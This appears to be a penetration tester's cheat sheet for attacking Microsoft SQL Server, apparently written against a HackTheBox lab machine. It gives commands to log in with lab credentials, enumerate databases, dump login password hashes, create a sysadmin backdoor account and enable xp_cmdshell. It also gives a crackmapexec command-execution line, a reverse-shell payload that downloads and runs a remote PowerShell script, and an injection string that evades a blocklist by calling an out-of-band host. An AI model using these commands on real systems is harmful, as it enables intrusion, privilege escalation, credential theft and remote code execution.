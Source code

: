 Mssql
========================

## Accessing

    impacket-mssqlclient 'PublicUser:GuestUserCantWrite1@escape.htb'


## Enumeration

Database names:

    SELECT name FROM master.dbo.sysdatabases;

Table names:

    SELECT * FROM <databaseName>.INFORMATION_SCHEMA.TABLES;

Use database

    USE master

Create user with sysadmin privs

    CREATE LOGIN hacker WITH PASSWORD = 'P@ssword123!'
    EXEC sp_addsrvrolemember 'hacker', 'sysadmin'

    select name, create_date, modify_date, type_desc as type, authentication_type_desc as authentication_type, sid from sys.database_principals where type not in ('A', 'R') order by name;

List user:

    select sp.name as login, sp.type_desc as login_type, sl.password_hash, sp.create_date, sp.modify_date, case when sp.is_disabled = 1 then 'Disabled' else 'Enabled' end as status from sys.server_principals sp left join sys.sql_logins sl on sp.principal_id = sl.principal_id where sp.type not in ('G', 'R') order by sp.name;


## Command execution

XP_CMDSHELL

    SELECT * FROM sys.configurations WHERE name = 'xp_cmdshell';

 Username + Password + CMD command

    crackmapexec mssql -d <Domain name> -u <username> -p <password> -x "whoami"

Username + Hash + PS command

    crackmapexec mssql -d <Domain name> -u <username> -H <HASH> -X '$PSVersionTable'


This turns on advanced options and is needed to configure xp_cmdshell

    sp_configure 'show advanced options', '1'
    RECONFIGURE

This enables xp_cmdshell

    sp_configure 'xp_cmdshell', '1'
    RECONFIGURE

One liner

    sp_configure 'show advanced options', 1; RECONFIGURE; sp_configure 'xp_cmdshell', '1'; RECONFIGURE;

Quickly check what the service account is via xp_cmdshell

    EXEC master..xp_cmdshell 'whoami'

Get Rev shell

    EXEC xp_cmdshell "powershell IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.14/shell2.ps1')"

Bypass blackisted "EXEC xp_cmdshell"

    '; DECLARE @x AS VARCHAR(100)='xp_cmdshell'; EXEC @x 'ping k7s3rpqn8ti91kvy0h44pre35ublza.burpcollaborator.net' —
    
## Impersonation

Check impersonation users:

    SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'
    
